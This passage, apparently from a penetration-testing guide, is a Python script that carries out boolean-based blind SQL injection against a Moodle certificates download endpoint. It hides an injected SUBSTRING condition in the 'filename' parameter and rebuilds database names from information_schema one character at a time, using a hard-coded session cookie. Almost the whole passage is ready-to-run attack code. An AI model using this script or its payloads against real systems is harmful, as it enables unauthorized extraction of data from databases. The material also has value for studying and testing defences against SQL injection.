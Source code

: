 ```python
		headers = {"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0","Connection":"close","Sec-Fetch-Dest":"document","Sec-Fetch-Site":"none","Sec-Fetch-User":"?1","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate, br","Sec-Fetch-Mode":"navigate"}
		cookies = {"MoodleSession":"otdcni86r8k5u520fcfh5ump30"}
		response = session.get("https://example.com/certificates/download.php", params=paramsGet, headers=headers, cookies=cookies)
		if response.status_code == 200:
			#print("\t[+]--- Length FOUND : %s" % str(i))
			return i
# GET TABLENAME
# Payload: (SELECT table_name from information_schema.tables LIMIT 1 OFFSET 1)
# Length: 14
def get_value(payload, length):
	out = ''
	for i in range(1,length+1):
		for l in letters:
			paramsGet = {"contextid":"189112","filename":"17042023164857_test.pdf' AND SUBSTRING(%s,%s,1)='%s'-- -" % (payload,i,l)}
			headers = {"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0","Connection":"close","Sec-Fetch-Dest":"document","Sec-Fetch-Site":"none","Sec-Fetch-User":"?1","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate, br","Sec-Fetch-Mode":"navigate"}
			cookies = {"MoodleSession":"otdcni86r8k5u520fcfh5ump30"}
			response = session.get("https://example.com/certificates/download.php", params=paramsGet, headers=headers, cookies=cookies)
			if response.status_code == 200:
				print("\t[+] Letter FOUND : %s" % str(l))
				out+=l
				break
	return out


# GET FIRST 10 DATABASES
for i in range(0,10):
	print("[!] DATABASE %s" % i)
	payload = "(SELECT schema_name from information_schema.schemata WHERE schema_name!='information_schema' AND schema_name!='performance_schema' AND schema_name!='sys' AND schema_name!='mysql' LIMIT 1 OFFSET %s)" % str(i)
	
	length = get_length(payload)
	print("\t[+] DATABASE %s LENGTH: %s" %(i, length))

	value = get_value(payload, length)
	print("\t[+] DATABASE %s VALUE: %s" %(i, value))
```

## Conditional Responses by triggering SQL errors
